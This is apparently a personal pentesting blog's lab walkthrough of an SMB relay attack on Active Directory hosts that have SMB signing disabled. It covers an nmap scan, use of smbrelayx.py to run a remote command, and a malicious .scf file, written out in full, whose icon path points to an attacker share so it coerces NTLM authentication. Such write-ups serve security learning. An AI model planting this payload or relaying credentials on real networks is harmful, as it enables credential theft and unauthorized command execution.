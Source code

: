 ```yaml
---
title: SMBRelay
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# SMBRelay

SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.

`If SMB signing is disabled, packets can be intercepted/modified and/or relayed to another system.`

# Exploitation

For SMBRelay to be successfull, three condition must be met :- 

- SMB signing must be disabled on our target machine.
- Relayed user credential must be admin on the target machine.

We will use nmap to scan for host with `SMB Signing disabled`.

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ntlmrelay1.png)

We got two host `10.42.0.30` and `10.42.0.70` with smb signing disabled.

We will run `smbrelayx.py` that will listen for smb traffics and relay them to our target system `10.42.0.30` and then execute "whoami /user" commands on the target.

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/smbrelaye2.png)

We will create a malicious file that will force the target machine to try to authenticate with our machine, which will allow us to obtain ntlm hash of the user.

```bash
[Shell]
Command=2
IconFile=\\[kali_ip_here]\\share\noexist.txt
[Taskbar]
Command=ToggleDesktop
```
Now we will save it in .scf file and then send it to the user. If the user opens the folder inwhich our file is placed, we will be able to execute smbrelay attack.

Let's login to the victim machine and browse the file.

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/smbrelaye5.png)

Now let's go back to our machine .

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/smbrelaye4.png)

We have successfully executed command on our target system.


# References 

- [https://docs.microsoft.com/en-us/archive/blogs/josebda/the-basics-of-smb-signing-covering-both-smb1-and-smb2](https://docs.microsoft.com/en-us/archive/blogs/josebda/the-basics-of-smb-signing-covering-both-smb1-and-smb2)
- [https://www.ired.team/offensive-security/lateral-movement/lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing](https://www.ired.team/offensive-security/lateral-movement/lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing)
